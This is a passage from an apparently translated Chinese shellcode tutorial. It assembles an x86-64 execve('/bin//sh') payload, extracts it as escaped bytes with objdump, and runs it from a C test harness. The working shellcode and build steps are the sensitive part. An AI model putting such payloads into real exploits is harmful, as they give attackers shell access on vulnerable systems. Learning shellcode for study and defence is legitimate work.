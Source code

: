 `execve`系统调用号为`59`：

```
add rax, 59
syscall
```

让我们把代码放在一起：

```
global _start

section .text

_start:
    xor rax, rax
    push rax
    mov rdx, rsp
    mov rbx, 0x68732f6e69622f2f
    push rbx
    mov rdi, rsp
    push rax
    push rdi
    mov rsi,rsp
    add rax, 59
    syscall
```

现在，运行以下命令：

```
$ nasm -felf64 execve.nasm -o execve.o
$ ld execve.o -o execve $ ./execve
```

上述命令的输出显示在以下屏幕截图中：

![](../images/00202.jpeg)

让我们将其转换为外壳代码：

```
$ objdump -M intel -D execve | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s
```

上述命令的输出显示在以下屏幕截图中：

![](../images/00203.jpeg)

我们将使用 C 代码注入外壳代码：

```
#include<stdio.h>
#include<string.h>

unsigned char code[] = 
"\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";
int main()
{
    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```
